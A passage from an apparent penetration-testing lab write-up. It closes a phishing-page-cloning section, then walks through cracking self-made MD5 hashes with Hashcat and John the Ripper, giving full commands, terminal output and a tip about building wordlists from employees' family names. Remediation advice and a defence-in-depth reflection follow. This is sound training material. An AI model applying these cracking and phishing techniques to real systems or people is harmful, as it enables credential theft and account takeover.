For defenders: train users to verify URLs before submitting credentials; the URL bar is the only reliable signal. Deploy FIDO2 / WebAuthn hardware MFA so even captured passwords are insufficient for login. Implement HSTS preload so browsers refuse to connect to the legitimate site over HTTP or to similar-looking domains. Use certificate pinning for mobile apps. Monitor for new domains that are homoglyphs or typosquats of the org's brand. Email gateway rules to flag or quarantine external emails containing login links. Periodic internal phishing simulations to measure click rates over time.

### Gotchas
Modern sites with HSTS, CSP frame-ancestors, or complex JS (React/Vue SPAs) don't clone cleanly; SET works best against simple server-rendered login forms. HTTPS sites can be cloned but the victim's browser will show the attacker's self-signed cert warning; a strong tell. SET's listener on port 80 conflicts with any local Apache/nginx; kill them first. The XML filename has spaces and a colon; always quote it: `cat "/root/.set/reports/2023-04-07 17:32:55.967169.xml"`. SET is a dual-use tool; written authorization is non-negotiable.

---

## 4. Password Cracking: Hashcat, John the Ripper

Hashcat is GPU-accelerated dictionary/mask attacks, John the Ripper is CPU-based with strong incremental heuristics

### Purpose
Recover plaintext passwords from captured hashes. Used after gaining access to `/etc/shadow`, a database of password hashes (e.g. the SQLi lab earlier dumped MD5s), or a breach corpus.

### Usage
Generate test MD5 hashes (one per line):
```bash
echo -n 'Password'    | md5sum | awk '{print $1}' >  my_pw_hashes.txt
echo -n 'Password123' | md5sum | awk '{print $1}' >> my_pw_hashes.txt
echo -n 'Letmein!'    | md5sum | awk '{print $1}' >> my_pw_hashes.txt
echo -n 'ilovedogs'   | md5sum | awk '{print $1}' >> my_pw_hashes.txt
echo -n '1234abcd'    | md5sum | awk '{print $1}' >> my_pw_hashes.txt
```

Hashcat dictionary attack:
```bash
# -m 0   hash type = MD5
# -a 0   attack mode = straight / dictionary
sudo hashcat -m 0 -a 0 -o cracked.txt my_pw_hashes.txt /usr/share/wordlists/rockyou.txt
sudo cat cracked.txt
```

John the Ripper:
```bash
john --format=raw-md5 my_pw_hashes.txt                    # default wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 my_pw_hashes.txt                    # rockyou wordlist
john --incremental my_pw_hashes.txt                       # brute force (slow)
john --show --format=raw-md5 my_pw_hashes.txt             # display cracked
```

### Findings

```
┌──(kali㉿Kali)-[~]
└─$ sudo hashcat -m 0 -a 0 -o cracked.txt my_pw_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i3-10100 CPU @ 3.60GHz, 2819/5703 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 5 digests; 5 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec   
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: my_pw_hashes.txt
Time.Started.....: Fri Sep 11 17:45:02 2026 (3 secs)
Time.Estimated...: Fri Sep 11 17:45:05 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3876.5 kH/s (0.14ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests (total), 5/5 (100.00%) Digests (new)
Progress.........: 10914816/14344385 (76.09%)
Rejected.........: 0/10914816 (0.00%)
Restore.Point....: 10913280/14344385 (76.08%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Li1984bra -> Leon2315
Hardware.Mon.#1..: Util: 46%

Started: Fri Sep 11 17:44:31 2026
Stopped: Fri Sep 11 17:45:05 2026

┌──(kali㉿Kali)-[~]
└─$ sudo cat cracked.txt
dc647eb65e6711e155375218212b3964:Password
ef73781effc5774100f87fe2f437a435:1234abcd
33830b8b7fd414b12c208c4de5055464:ilovedogs
42f749ade7f9e195bf475f37a44cafcb:Password123
e85a3b267e94f3721117fc7ac54fbeba:Letmein!

┌──(kali㉿Kali)-[~]
└─$       
```

**Hashcat**: `-m 0` (MD5) + `-a 0` (straight/dictionary) + `rockyou.txt` (14M+ passwords) cracked all 5 hashes in seconds. The `rockyou.txt.gz` file in `/usr/share/wordlists/` must be decompressed first with `gzip -d rockyou.txt.gz`. Output `cracked.txt` is `hash:plaintext` per line.

```
┌──(kali㉿Kali)-[~]
└─$ john --format=raw-md5 my_pw_hashes.txt                    # default wordlist                                                                           
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Password         (?)     
Letmein!         (?)     
Proceeding with incremental:ASCII
1234abcd         (?)     

```

**John the Ripper**: with the default wordlist, immediately cracked `Password`, `Letmein!`, `1234abcd`. For uncracked hashes, John automatically switched to **incremental (brute force)** mode. With `--wordlist=rockyou.txt`, recovery rate went up significantly. `--show` displays already-cracked hashes without re-running. Brute force on even MD5 takes a long time; a powerful GPU may need hours for complex 8-char passwords.

**On the rockyou wordlist**: scrolling through it reveals many first names and predictable patterns (numbers increasing, common phrases). A pentester can use OSINT to learn employee family members' names and feed those as a custom wordlist; a much higher hit rate than generic dictionaries.

**Reflection**: complexity and length matter because short/simple hashes are cracked almost immediately with dictionaries or rainbow tables; even fairly complex passwords fall in hours with GPUs. Beyond complexity: change passwords periodically, secure the servers that store hashes (prevent exfiltration), secure networks so hashes can't be captured in transit, never use personal info (family names, birthdays) in passwords, enforce MFA so a cracked password is not sufficient for login.

### Remediation
For defenders: mandate **bcrypt / scrypt / argon2** for password storage; these are deliberately slow (adjustable work factor) and salted, making both dictionary and rainbow table attacks impractical. **Never use MD5 or SHA-1 for passwords**; they're designed for speed, which is the enemy of password security. Enforce minimum 12-character passwords with complexity. Ban passwords from breach lists (HIBP Pwned Passwords API). Rate-limit online login attempts and enforce lockout. Require MFA everywhere; a stolen password should not grant access. Educate users against personal-info-based passwords.

### Gotchas
Hashcat needs a GPU (OpenCL/CUDA) for serious work; CPU mode is slow. John's default wordlist is tiny; always pass `--wordlist=rockyou.txt` or a custom list for real engagements. `rockyou.txt` is 14M passwords; 130 MB uncompressed; fine in memory, but custom large lists may need `--limit` tuning. The Kali password-attacks menu has four subcategories: Offline Attacks, Online Attacks, Passing the Hash Attacks, Password Profiling & Wordlists.

## Closing Reflection

These four labs taken together show the exploitation chain that follows active recon. After Nmap and enum4linux identified weak SMB configs in the previous file, here we used `smb-brute` to recover default credentials. After SQLi dumped MD5 password hashes from DVWA, we cracked them in seconds with rockyou+Hashcat or instantly with CrackStation. After ARP spoofing redirected traffic through our Kali VM, cleartext protocols would have surrendered credentials without any password cracking. After SET cloned a login page, credentials came to us via user action; no exploit needed.

The pattern: **every weakness compounds**. A weak SMB password becomes a shell. A shell becomes a `/etc/shadow` exfiltration. A shadow file becomes a list of cracked passwords. Cracked passwords become access to other services. The defensive message is the inverse: **every layer of hardening breaks the chain**. Parameterized queries → no SQLi. DAI on switches → no ARP spoofing. bcrypt instead of MD5 → cracked-hash lists are useless. MFA → cracked passwords don't grant access. User training → phishing emails don't get clicks.

The labs also reinforce that no single attack is "the" attack; the pentester chains findings, the defender breaks the chain at the cheapest layer. Patching OpenSSH 7.9p1 closes one CVE; switching to key-based auth closes an entire class of credential-reuse attacks. Disabling SMBv1 closes EternalBlue; segmenting the network so SMB never crosses a VLAN closes every SMB-worm variant. Defense in depth isn't a buzzword; it's the only rational response when every individual layer has known failures.
